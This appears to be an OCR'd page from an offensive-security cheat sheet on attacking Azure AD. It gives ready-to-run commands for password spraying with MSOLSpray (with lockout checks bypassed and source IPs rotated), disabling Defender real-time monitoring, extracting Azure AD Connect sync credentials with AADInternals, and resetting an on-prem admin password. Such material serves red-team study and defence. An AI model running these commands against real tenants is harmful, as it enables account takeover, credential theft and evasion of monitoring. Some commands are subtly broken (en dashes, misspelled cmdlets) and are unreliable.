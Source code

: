 ```powershell
git clone https://github.com/dafthack/MSOLSpray
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!

# UserList  - UserList file filled with usernames one-per-line in the format "user@domain.com"
# Password  - A single password that will be used to perform the password spray.
# OutFile   - A file to output valid results to.
# Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
# URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
```

⧉ Copied!

### Convert GUID to SID

The user's AAD id is translated to SID by concatenating `"S-1–12–1-"` to the decimal representation of each section of the AAD Id.

```powershell
GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]
```

⧉ Copied!

For example, the representation of `6aa89ecb-1f8f-4d92–810d-b0dce30b6c82` is `S-1–12–1–1789435595–1301421967–3702525313–2188119011`

## Azure AD Connect

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

- For **PHS**, we can extract the credentials
- For **PTA**, we can install the agent
- For **Federation**, we can extract the certificate from ADFS server using DA

```powershell
PS > Set-MpPreference -DisableRealtimeMonitoring $true
PS > Copy-Item -ToSession $adcnct -Path C:\Tools\AADInternals.0.4.5.zip -Destination C:\Users\Administrator\Documents
PS > Expand-Archive C:\Users\Administrator\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
PS > Get-AADIntSyncCredentials

# Get Token for SYNC account and reset on-prem admin password
PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```
